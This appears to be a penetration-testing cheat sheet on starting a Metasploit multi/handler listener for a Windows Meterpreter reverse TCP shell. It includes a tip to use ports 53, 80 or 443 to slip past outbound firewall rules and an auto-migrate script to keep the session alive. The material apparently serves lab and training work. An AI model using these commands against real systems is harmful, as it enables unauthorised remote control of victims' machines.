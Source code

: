 ```yaml
---
title: "Metasploit Listener"
date: 2024-6-26
tags: ["metasploit", "listener", "revshell", "msfconsole"]
---
```


---
### Start a Metasploit Listener

```bash
msfconsole -q
```

```bash
use exploit/multi/handler
```

```bash
set payload windows/meterpreter/reverse_tcp
```

```bash
set lhost 10.10.14.10
```

```bash
set lport 443
```

```bash
run
```

<small>*Note: Try to use common ports such as 53, 80, 443 to bypass firewall outbound rules*</small>

### If the shell die immediately, we can try to migrate it to another process

```bash
# Create a automigrate.rc script
run post/windows/manage/migrate
```

<br>

```bash
msfconsole -q
```

```bash
use exploit/multi/handler
```

```bash
set payload windows/meterpreter/reverse_tcp
```

```bash
set lhost 10.10.14.10
```

```bash
set lport 443
```

```bash
set AutoRunScript multi_console_command -r automigrate.rc
```

```bash
run
```

<br>